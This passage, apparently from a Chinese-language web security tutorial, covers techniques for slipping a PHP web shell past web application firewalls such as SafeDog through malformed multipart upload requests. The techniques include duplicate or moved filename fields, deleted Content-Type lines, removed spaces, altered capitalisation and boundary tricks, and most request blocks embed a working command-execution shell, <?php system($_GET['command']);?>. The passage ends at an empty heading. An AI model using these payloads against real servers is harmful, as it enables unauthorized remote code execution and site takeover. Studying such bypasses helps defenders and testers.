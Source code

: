 **2.8.2 filename**

针对早期版本安全狗，可以多加一个filename

```PHP
--xYzZY
Content-Disposition: form-data; name="userfile"; filename="shell.jpg";filename="shell.php" //多加一个filename
Content-Type: image/gif
<?php system($_GET['command']);?>
--xYzZY-
```
或者将filename换位置，在IIS6.0下如果我们换一种书写方式，把filename放在其他地方：

```PHP
--xYzZY
Content-Disposition: form-data; name="userfile"
Content-Type: image/gif
filename="shell.php"  //把filemane放这里
<?php system($_GET['command']);?>
--xYzZY-
```

**2.8.3 POTS/GET**

有些WAF的规则是：如果数据包为POST类型，则校验数据包内容。

此种情况可以上传一个POST型的数据包，抓包将POST改为GET。

**2.8.4 利用waf本身缺陷**

- 删除实体里面的Conten-Type字段

第一种是删除Content整行，第二种是删除C后面的字符。删除掉ontent-Type: image/jpeg只留下c，将.php加c后面即可，但是要注意额，双引号要跟着c.php。

```PHP
正常包：Content-Disposition: form-data; name="image"; filename="085733uykwusqcs8vw8wky.png"Content-Type: image/png
构造包：Content-Disposition: form-data; name="image"; filename="085733uykwusqcs8vw8wky.png
C.php"
```
- 删除Content-Disposition字段里的空格
```php
Content-Disposition:/*这里空格删除*/form-data; name="userfile"; filename="shell.php"
```

- 增加一个空格导致安全狗被绕过案列：

```
Content-Type: multipart/form-data; boundary=—————————4714631421141173021852555099
尝试在boundary后面加个空格或者其他可被正常处理的字符：
boundary= —————————47146314211411730218525550
```

- 修改Content-Disposition字段值的大小写
```
Content-Disposition: form-data; nAme="userfile"; filename="shell.php"
```
- Boundary边界不一致
